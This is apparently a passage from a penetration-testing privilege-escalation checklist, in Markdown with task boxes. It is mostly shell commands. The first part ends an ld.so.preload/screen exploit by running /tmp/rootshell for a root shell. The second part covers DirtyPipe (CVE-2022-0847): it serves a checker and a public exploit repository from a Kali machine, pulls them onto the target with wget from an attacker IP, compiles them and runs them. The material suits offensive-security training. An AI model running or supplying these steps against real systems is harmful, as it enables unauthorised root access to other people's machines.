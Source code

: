 - [ ] Ensure preload file is created on the Target Machine
```
ls -l ld.so.preload
```

- [ ] View that ownership of `rootshell` has become root on the Target Machine
```
ls -l /tmp/rootshell
```

- [ ] Run screen to run the library with our commands on the Target Machine
```
screen -ls 
```

- [ ] Run `rootshell` to get a root shell on the Target Machine
```
/tmp/rootshell
```

## DirtyPipe (CVE-2022-0847)

- [ ] Download dirtyPipe vulnerability checker and serve on your Kali Machine
```
wget https://raw.githubusercontent.com/basharkey/CVE-2022-0847-dirty-pipe-checker/main/dpipe.sh
python3 -m http.server 80
```

- [ ] Download file on the Target Machine
```
wget 192.168.xxx.xxx/dpipe.sh
```

- [ ] Run vulnerability checker on the Target Machine
```
chmod +x dpipe.sh 
./dpipe.sh
```

- [ ] Clone repo for dirtypipe and serve on your Kali Machine
```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
python3 -m http.server 80
```

- [ ] Download files on the Target Machine
```
wget 192.168.xxx.xxx/compile.sh
wget 192.168.xxx.xxx/exploit-1.c
wget 192.168.xxx.xxx/exploit-2.c
```

- [ ] Compile exploit on the Target Machine
```
chmod +x compile.sh
./compile.sh
```
